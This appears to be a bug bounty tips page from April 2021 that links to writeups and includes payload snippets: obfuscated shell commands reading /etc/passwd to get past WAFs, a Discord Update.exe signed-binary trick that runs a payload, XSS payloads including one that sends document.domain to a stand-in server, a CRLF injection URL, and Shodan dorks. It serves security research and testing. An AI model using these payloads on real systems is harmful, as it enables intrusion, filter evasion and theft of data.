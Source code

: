 # Bug Bounty Tips - April 2021

# 📅 01-Apr-2021
## Exploiting Account TakeOver => CSRF + CORS
- https://nirajmodi51.medium.com/missing-cors-leads-to-complete-account-takeover-1ed4b53bf9f2

## MindAPI 
Organize your API security assessment by using MindAPI. It's free and open for community collaboration.
- https://github.com/dsopas/MindAPI

## Bug Bytes 116
- https://blog.intigriti.com/2021/03/31/bug-bytes-116-new-oauth-attacks-hacking-shopify-with-a-single-dot-netmask-ssrf/

# 📅 01-Apr-2021
## Facebook Account Takeover writeups
- https://ysamm.com/?p=654
- https://ysamm.com/?p=646

## Dangerous Functions | Binary Exploitation 0x01
- https://youtu.be/EJtUW2AklVs

# 📅 05-Apr-2021
## Shodan Dorks
Everyone knows how to find Directory Listing Using Google Dorks Right?
Dork - intitle:"Index of /"

We can do the same with Shodan to find even more Directory Listings!

Dork- `http://ssl.cert.subject.CN:"*target.*" 200 http.title:"Index of /"`

## Obfuscation Random characters

### Payloads

```sh
$aaaaaaa/bin$bbbbbb/cat$ccccccc $dddddddd/etc$eeeeeee/passwd$ggggggg

$sdijchkd/???$sdjhskdjh/??t$skdjfnskdj $sdofhsdhjs/???$osdihdhsdj/??ss??$skdjhsiudf
```
### Proof of Concept
![img](https://pbs.twimg.com/media/EyMKkZWVEAAInk9?format=png&name=small)
![img](https://pbs.twimg.com/media/EyMKkZXUYAIaclN?format=png&name=large)
***Source: https://twitter.com/sec715/status/1378957974790492160?s=20***

# 📅 07-Apr-2021
## RCE on Windows Application

Copy your payload into `%userprofile%\AppData\Local\Discord\Current\`

Then

```cmd
%userprofile%\AppData\Local\Discord\Update.exe --processStart payload.exe --process-start-args "whatever args"
```

Trusted signed binary will run the payload for you Smiling face with smiling eyes

***Source: https://twitter.com/smelly__vx/status/1379519938197655566?s=20***

# 📅 08-Apr-2021
## Facebook account takeover due to a wide platform bug in ajaxpipe responses
- https://ysamm.com/?p=654

## RCE WAF Bypass

```sh
;+$u+cat+/etc$u/passwd$u
;+$u+cat+/etc$u/passwd+\#
/???/??t+/???/??ss??
/?in/cat+/et?/passw?
```

# 📅 09-Apr-2021
## Writing Network Templates with Nuclei
- https://t.co/TiE9cg5p2K?amp=1

## Cloudflare bypass all browsers.
```js
<svg/onload=location/**/='https://your.server/'+document.domain>
```

# 📅 12-Apr-2021
## Bypassing root detection , certificate pinning using https://github.com/Ch0pin/medusa  anti_debug and unpinner modules 
@Einstais @mobilesecurity_
- https://twitter.com/Ch0pin/status/1381216805683924994?s=20

## XSS Bypass Tip
Hot XSS tip: did you know `window.alert?.()` and `(window?.alert)` will pop an alert? The ?. is a feature called optional chaining and as far as I can tell it's not in any popular XSS payload lists. Worth trying if you're looking for filter bypasses!
![img](https://pbs.twimg.com/media/EygnbstWUAAodo0?format=png&name=small)

## XSS Payload via email
`hello"><img/src="x"onerror=alert(document.domain)>@mail.com`
***source : https://hackerone.com/reports/1107726***

### XSS on glassdoor
```js
"&gt;&lt;img+src+onerror=confirm&amp;#x00028;1&amp;#x00029;&gt;
```
***Source : https://hackerone.com/reports/789689***

## CRLF Injection
- https://hackerone.com/reports/1038594
### Example
```text
https://www.abc.com/%0D%0ASet-Cookie:crlfinjection=crlfinjection
```
